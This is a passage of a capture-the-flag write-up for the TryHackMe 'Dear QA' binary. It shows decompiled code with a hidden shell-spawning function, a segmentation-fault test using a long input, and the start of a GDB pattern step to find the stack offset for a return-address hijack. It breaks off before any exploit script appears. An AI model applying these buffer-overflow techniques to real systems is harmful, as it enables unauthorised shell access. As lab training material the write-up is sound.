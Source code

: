 ```c
    rsi = rax;
    eax = 0;
    printf ("Hello: %s\n");
    eax = 0;
    return rax;
}
```

**Function `vuln()`:**
```c
#include <stdint.h>
 
int64_t vuln (void) {
    puts ("Congratulations!");
    puts ("You have entered in the secret function!");
    rax = *(stdout);
    rdi = *(stdout);
    fflush ();
    edx = 0;
    esi = 0;
    edi = "/bin/bash";
    execve ();
    return rax;
}
```

**Let's test for a segmentation fault:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# ./DearQA.DearQA                     
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
zsh: segmentation fault  ./DearQA.DearQA
```

In the `main()` function, **the `printf ("Hello: %s\n");` is vulnerable to buffer overflow.**

Also, **there is a function called `vuln()`, which spawns a bash shell.**

So, **what if we can control the RSP, and jump to function `vuln()` to spawn a bash shell?**

To do so. I'll:

- Find the RSP offset:

I'll use `GDB` to create pattern and find the offset:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Dear_QA]
└─# gdb DearQA.DearQA
[...]
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=8)
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
[+] Saved as '$_gef0'

gef➤  r
Starting program: /root/ctf/thm/ctf/Dear_QA/DearQA.DearQA 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome dearQA
I am sysadmin, i am new in developing
```